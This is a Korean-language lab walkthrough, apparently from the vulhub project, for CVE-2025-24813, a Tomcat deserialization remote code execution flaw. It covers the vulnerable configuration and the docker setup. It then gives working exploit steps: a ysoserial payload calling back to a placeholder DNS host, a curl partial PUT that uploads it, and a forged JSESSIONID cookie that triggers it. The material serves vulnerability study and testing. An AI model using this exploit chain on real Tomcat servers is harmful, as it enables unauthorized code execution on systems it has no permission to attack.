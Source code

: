 # Tomcat 세션 역직렬화 원격 코드 실행 (CVE-2025-24813)

[中文版本(Chinese version)](README.zh-cn.md) [English version](README.eng.md)

Apache Tomcat은 Java Servlet, JSP, EL, WebSocket 기술을 구현한 세계적으로 널리 사용되는 오픈소스 웹 애플리케이션 서버입니다.

Apache Tomcat에서는 11.0.0-M1에서 11.0.2까지, 10.1.0-M1에서 10.1.34까지, 9.0.0.M1에서 9.0.98까지 역직렬화 취약점이 발견되었습니다. 이는 Tomcat이 쓰기 가능한 DefaultServlet(읽기 전용=false)과 파일 기반 세션 지속성을 모두 갖춘 상태로 구성될 때 발생합니다. 이 조합을 통해 공격자는 서버에 임의의 파일을 작성하고 JSESSIONID 쿠키를 조작하여 이러한 파일의 역직렬화를 트리거하여 궁극적으로 원격 코드 실행으로 이어질 수 있습니다.

- <https://lists.apache.org/thread/j5fkjv2k477os90nczf2v9l61fb0kkgq>
- <https://github.com/charis3306/CVE-2025-24813>
- <https://forum.butian.net/article/674>

## 환경 구성

다음 명령을 실행하여 자바를 설치합니다.


다음 명령을 실행하여 취약한 Tomcat 9.0.97 서버를 시작합니다:

```
git clone https://github.com/vulhub/vulhub.git
cd vulhub/tomcat/CVE-2025-24813
docker compose up -d
```

컨테이너 실행 확인

```
docker compose ps
```
![image](https://github.com/user-attachments/assets/cf232c15-9e84-4ae6-8ef5-7c5be5b3b6f2)


서버가 시작된 후, 'http://your-ip:8080'을 방문하여 Tomcat 예제 페이지에 접속할 수 있습니다.

## 취약점 구현 방법

취약점은 Tomcat의 두 가지 주요 잘못된 구성으로 인해 발생합니다. 첫째, DefaultServlet은 readonly=false로 구성되어 파일 업로드가 가능합니다:

```xml
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>
```

둘째, Tomcat은 파일 기반 세션 지속성을 사용하도록 구성되어 있습니다.

```xml
<Manager className="org.apache.catalina.session.PersistentManager">
    <Store className="org.apache.catalina.session.FileStore"/>
</Manager>
```

두 구성 모두 동일한 기본 저장 경로를 사용합니다: '$CATALINA_BASE/work/Catalina/localhost/ROOT'.

부분 PUT 요청을 보낼 때 Tomcat은 파일 경로의 경로 구분자(/)를 마침표(.)로 변환하고 파일을 세션 저장 디렉토리에 임시로 저장합니다. 특정 요청을 작성하여 이 디렉토리에 악성 직렬화된 개체를 작성할 수 있습니다.

이 취약점을 악용하려면 악성 파일을 만들어 업로드 하고 역직렬화를 트리거합니다.(저는 테스트 목적으로 ysoserial을 사용합니다):

ysoserial을 사용하여 악성 직렬화 객체를 생성합니다. DNS 요청 검증용 URLDNS 가젯을 예로 들면

```
java -jar ysoserial-all.jar URLDNS "http://your-dns-server.example" > payload.ser
```

![image](https://github.com/user-attachments/assets/95c8a75b-c1a6-4150-be2a-0af884f8ad6c)

다음으로 아래 명령어를 입력해 부분 PUT 요청으로 악성 세션 파일을 업로드합니다.

```
FILESIZE=$(stat -c %s payload.ser)
curl -X PUT "http://localhost:8080/deserialize/session" \
  -H "Content-Range: bytes 0-$(($FILESIZE-1))/$FILESIZE" \
  --data-binary @payload.ser
```
이미 생성되어 있다면 409 conflict 에러가 발생할 것이고 그렇지 않다면 201 Created가 뜰 것입니다.

이후 JSESSIONID 쿠키를 조작하여 역직렬화를 트리거합니다

```
curl -v "http://localhost:8080/" -H "Cookie: JSESSIONID=.deserialize"

```
![image](https://github.com/user-attachments/assets/f0cd870c-4e15-4bab-905a-353045bf2b5b)

Tcpdump 명령어를 통해 DNS(53)을 모니터링하면 다음과 같은 결과를 통해 your-dns-server.example이 성공적으로 나타남을 확인할 수 있습니다.

![image](https://github.com/user-attachments/assets/218b03e9-1280-4ddb-b58e-995a62ad06b9)

실제 공격 시나리오에서는 "콘텐츠 역직렬화"가 웹 애플리케이션에 의해 역직렬화될 때 임의의 코드를 실행할 수 있는 악의적인 직렬화된 Java 객체로 대체될 것입니다.
